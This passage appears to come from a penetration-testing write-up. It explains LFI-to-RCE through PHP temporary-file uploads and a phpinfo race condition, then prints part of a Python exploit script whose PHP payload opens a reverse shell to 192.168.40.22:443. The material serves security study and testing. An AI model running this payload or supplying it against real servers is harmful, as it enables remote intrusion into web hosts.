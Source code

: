 **Result**: LFI vulnerability confirmed.

## PHP Temp File RCE

### Attack Methodology

Exploiting PHP temporary file handling with phpinfo:

**Technique**: Race condition to include temporary uploaded files before deletion.

**Process**:

1. Upload large POST request to phpinfo page
2. Extract temporary filename from phpinfo output
3. Include temp file via LFI before cleanup
4. Execute embedded PHP code

### Exploitation Script

Python script implementing the attack:

```python
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.40.22/443 0>&1'") ?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    LFIREQ="""GET /index.php?filename=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
```
